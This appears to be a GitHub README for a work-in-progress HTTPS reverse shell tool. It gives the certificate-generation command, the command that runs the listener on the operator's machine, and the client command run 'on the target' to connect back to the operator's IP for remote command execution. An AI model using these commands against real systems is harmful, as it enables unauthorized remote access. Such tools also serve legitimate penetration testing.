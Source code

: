 # HTTPS Reverse Shell

**Work in Progress!** 

I hacked this together in two days, so take care.

It basically works, but a lot of stuff is still missing/hacky. Especially if two clients connect at the same time, things get wild.

## Create Cert and Key for server

```bash
openssl req -new -newkey rsa:4096 -days 730 -nodes -x509 -keyout server.key -out server.crt
```

When prompted write whatever. Or mash enter. Put these in the same directory as the server or supply the paths via command line arguments.

## Howto

On your own machine (use sudo/root for low ports):

```bash
sudo python3 server.py -p 443
```

On the target:

```bash
python3 client_3.py -p 443 -t <your_ip_or_hostname>
```

Use the parameter `--help` on either to see all possible parameters.

## Requirements

None

## ToDo

* Monitor status of client
* Handle multiple clients
* Proper client session instead of just RCE
* Python2 version of client
* Actually take Content-Length into account for big responses [done]
* Auto-create key/cert
* Control client polling speed
* Put client into sleep mode
* Reasonable retries by the client if server does not exist/respond (yet)
